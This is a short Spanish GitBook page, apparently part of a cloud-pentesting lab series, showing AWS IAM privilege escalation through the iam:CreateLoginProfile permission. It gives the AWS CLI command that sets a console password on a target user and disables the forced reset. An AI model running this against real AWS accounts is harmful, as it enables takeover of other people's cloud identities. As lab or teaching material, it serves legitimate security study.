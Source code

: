 Configurar un perfil en AWS CLI

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
aws sts get-caller-identity --profile privesc5
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Explotación

Como en el caso anterior, después de hacer enumeración y encontrar el usuario administrador o el usuario interesante a escalar y tomando en cuenta el permiso **iam:CreateLoginProfile**, se puede realizar el siguiente comando para generar una nueva contraseña:

{% code overflow="wrap" %}
```
aws iam create-login-profile --user-name <UserToHack> --password Password123! --no-password-reset-required --profile privesc5
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (36) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Si el usuario tiene doble factor de autenticación, este método de ataque no va a funcionar.
{% endhint %}
